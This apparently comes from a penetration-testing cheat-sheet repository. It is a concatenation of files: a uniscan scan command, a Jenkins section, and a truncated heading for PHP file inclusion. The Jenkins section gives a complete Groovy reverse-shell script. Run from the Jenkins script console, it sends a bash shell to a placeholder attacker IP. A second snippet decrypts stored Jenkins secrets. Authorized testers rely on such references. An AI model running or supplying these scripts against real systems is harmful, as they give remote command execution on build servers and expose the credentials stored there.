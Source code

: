 ## UNISCAN

`uniscan -qweds -u http://TARGET.com`




---
File: /CheatSheets/jenkins/readme.md
---

# Jenkins

## Reverse Shell via Jenkins

Go to Jenkins script console:

`https://target-jenkins/script`

Execute the following `Groovy` script to send you the reverse shell on port 8080:
```
String host="ATTACKERS-IP-HERE";
int port=8080;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

> Don't forget setting you listener before run the script

## Decoding a Jenkins encripted password

Go to Jenkins script console:

`https://target-jenkins/script`

Execute the following `Groovy` script to decode the encripted information

```
hashed_pw='{ENC_PASS_HERE}'
passwd = hudson.util.Secret.decrypt(hashed_pw)
println(passwd)
```



---
File: /CheatSheets/LFI/readme.md
---

# LFI PHP
